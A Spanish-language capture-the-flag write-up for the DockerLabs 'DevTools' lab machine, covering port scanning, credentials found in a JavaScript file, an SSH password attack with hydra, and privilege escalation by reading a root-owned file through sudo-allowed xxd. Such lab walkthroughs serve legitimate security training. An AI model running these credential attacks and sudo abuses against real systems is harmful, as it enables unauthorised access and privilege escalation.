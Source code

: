 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DevTools DockerLabs (intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip devtools.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh devtools.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-16 11:48 EST
Nmap scan report for asucar.dl (172.17.0.2)
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 4d:ea:92:ba:53:e3:b8:dc:71:95:50:19:87:6b:b2:6d (ECDSA)
|_  256 fa:77:68:76:dc:8e:b1:cd:56:5f:c1:79:89:ad:fa:78 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: \xC2\xBFQu\xC3\xA9 son las DevTools del Navegador?
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.27 seconds
```

Si entramos en la pagina nos pedira usuario y contraseña de la pagina, por lo que en algun lugar tendra que haber las credenciales en algun `js`, si inspeccionamos la pagina, veremos la siguiente linea:

```html
<script src="backupp.js" defer></script>
```

Si entramos en ese archivo, veremos lo siguiente:

```js
const usuario = "chocolate";
const contrasena = "chocolate"; // Antigua contraseÃ±a baluleroh

const solicitarAutenticacion = () => {
    const credenciales = prompt("Ingrese las credenciales en el formato usuario:contraseÃ±a:");

    if (credenciales) {
        const [entradaUsuario, entradaContrasena] = credenciales.split(":");

        if (entradaUsuario === usuario && entradaContrasena === contrasena) {
            alert("AutenticaciÃ³n exitosa. Â¡Bienvenido!");
        } else {
            alert("AutenticaciÃ³n fallida. IntÃ©ntelo de nuevo.");
            solicitarAutenticacion(); // Reintentar autenticaciÃ³n
        }
    } else {
        alert("Debe ingresar las credenciales.");
        solicitarAutenticacion();
    }
};

solicitarAutenticacion();
```

Veremos un comentario de que su antigua contraseña era `baluleroh`, por lo que para descartar posibles credenciales, pondremos como usuario y contraseña:

```
User: chocolate
Pass: chocolate
```

Por `ssh` de la siguiente forma:

```shell
ssh chocolate@<IP>
```

Metemos como contraseña `chocolate`, pero vemos que no nos funciona, si probamos la antigua contraseña `baluleroh` tampoco nos deja, por lo que tendremos que descubrir que usuario le pertenece dicha contraseña `baluleroh`:

## Escalate user carlos

```shell
hydra -L <WORDLIST> -p baluleroh ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-16 12:17:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: baluleroh
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Sacamos las credenciales del usuario `carlos`, por lo que nos conectamos por `ssh`:

```shell
ssh carlos@<IP>
```

Metemos la contraseña `baluleroh` y ya estariamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for carlos on fb5c64da956d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User carlos may run the following commands on fb5c64da956d:
    (ALL) NOPASSWD: /usr/bin/ping
    (ALL) NOPASSWD: /usr/bin/xxd
```

Y si leemos el archivo llamado `nota.txt` que esta en la `home` de nuestro usuario, veremos lo siguiente:

```
Backup en data.bak dentro del directorio de root
```

Por lo que podremos hacer lo siguiente como `root` para poder leer ese archivo:

```shell
LFILE=/root/data.bak
sudo xxd "$LFILE" | xxd -r
```

Info:

```
root:balulerito
```

Por lo que ya tendremos las credenciales de `root` solo tendremos que hacer lo siguiente:

```shell
su root
```

Metemos la contraseña `balulerito` y seremos `root`, por lo que ya habremos terminado.
